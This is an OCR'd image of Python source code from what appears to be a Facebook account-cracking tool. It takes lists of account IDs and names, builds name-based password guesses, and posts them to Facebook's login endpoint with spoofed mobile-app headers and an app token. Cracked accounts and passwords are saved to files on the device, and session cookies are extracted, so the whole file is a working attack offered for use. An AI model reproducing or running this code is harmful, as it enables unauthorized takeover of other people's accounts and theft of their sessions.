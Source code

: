 


 
    def start2(user):
      global loop,accounts
      try:
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mJXS-M2\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mOK : \033[1;92m{} \033[1;97mCP : \033[1;91m{}      \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads = None
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mShezii😍-OK\033[1;92m] \033[1;97m'+acc+' \033[1;92m✓\033[1;97m '+pword+'  ')
                open('/sdcard/Shezii😍-OK.txt','a').write(f'{acc} ✓ {pword}\n')
                if 'y' in apps:
                	check(r,coki)
                if c=='y':
                 try:  
                  q = json.loads(response.text)
                  ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                  ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                  cookies = f"sb={ssbb};{ckkk}"
                 except Exception as e:print(str(e)+' | '+response.text)
                 print('\r\033[1;93m[\033[1;97mCookie\033[1;93m] \033[1;97m'+cookies)                
                 break
            elif 'checkpoint' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mShezii😍-CP\033[1;91m] \033[1;97m'+acc+' \033[1;91m✓\033[1;97m '+pword)
                cpacc.append(acc)
                open('/sdcard/Shezii😍-CP.txt','a').write(f'{acc} | {pword}\n')